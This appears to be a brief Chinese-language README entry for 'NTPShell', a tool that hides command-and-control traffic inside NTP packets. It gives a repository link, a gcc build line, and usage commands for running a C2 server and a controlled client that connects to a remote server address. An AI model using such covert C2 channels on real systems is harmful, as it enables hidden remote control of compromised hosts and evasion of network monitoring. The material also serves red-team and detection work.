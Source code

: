 # NTPShell

**获取地址**：https://github.com/aplyc1a/NTPShell

通过NTP协议来负载C2数据。

**编译** 

```shell
gcc ntp.c -lpthread -o ntp
```

**使用**

```shell
c2服务端：./ntp -S
c2被控端：./ntp -C -s {server_addr}
```
